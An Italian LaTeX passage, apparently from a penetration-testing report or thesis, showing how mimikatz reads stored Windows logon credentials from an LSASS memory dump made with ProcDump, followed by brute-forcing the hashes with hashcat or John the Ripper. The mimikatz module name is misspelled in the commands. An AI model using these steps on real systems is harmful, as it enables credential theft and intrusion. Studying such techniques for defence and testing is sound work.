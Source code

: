 Ora abilitiamo il log e andiamo a spostare lo spazio di lavoro di mimikatz sul file generato da procDump 

\begin{figure}[h!]
    \centering
    \includegraphics[width=100mm]{Immagini/2/mimikatz_2.PNG}
    \caption{Mimikatz setup}
    \label{fig:ProcDump}
\end{figure}

\begin{lstlisting}[ caption={Mimikatz command setup}, style=javaScriptCode]
    log
    sekerlsa::minidump lsass.dmp
\end{lstlisting}

Ora siamo pronti per recuperare tutte le password memorizzate internamente al sistema, eseguendo il seguente comando :

\begin{lstlisting}[ caption={Mimikatz Logon Passwords}, style=javaScriptCode]
    sekerlsa::logonpasswords
\end{lstlisting}

\begin{figure}[h!]
    \centering
    \includegraphics[width=100mm]{Immagini/2/mimikatz_3.PNG}
    \caption{Mimikatz dumo hash}
    \label{fig:ProcDump}
\end{figure}

Una volta recuperati gli hash delle password siamo pronti per eseguire un Brute-Force attraverso per esempio lo strumento hashcat o john the ripper.


\section{Linux}

